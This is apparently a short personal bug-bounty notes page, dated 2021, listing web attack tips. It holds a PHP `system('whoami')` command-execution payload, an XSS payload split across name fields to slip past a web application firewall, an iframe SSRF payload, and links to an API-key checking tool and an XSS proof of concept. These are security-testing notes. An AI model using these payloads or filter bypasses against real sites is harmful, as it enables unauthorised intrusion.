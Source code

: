 ```yaml
---
layout: page
title: Notes
cover-img: /assets/img/notes.jpg
subtitle: Notes and thoughts
---
```


Date: 27-02-2021

1. Use this as payload, when it is vulnerable to xss: `<?php system('whoami'); ?>` [link](https://amakki.me/how-i-made-15k-from-remote-code-execution-vulnerability-2e1b14b3902a)

2. If WAF blocked your payload, you can bypass it by separating the payload. [link](https://twitter.com/AMakki1337/status/1478048809217400837)

First Name: `<svg`

Last Name: `onload=alert(1)>`

Name: `<svg onload=alert(1)>`

3. This can be a payload for SSRF: `<iframe src=’https://labs.amakki.me’>` [link](https://amakki.me/full-ssrf-by-exporting-pdf-bbe1bfde24c4)

4. Got some api keys, let's check this [KeyHacks](https://github.com/streaak/keyhacks) 

5. Another nice payload for XSS: [link](https://brutelogic.com.br/poc.svg)

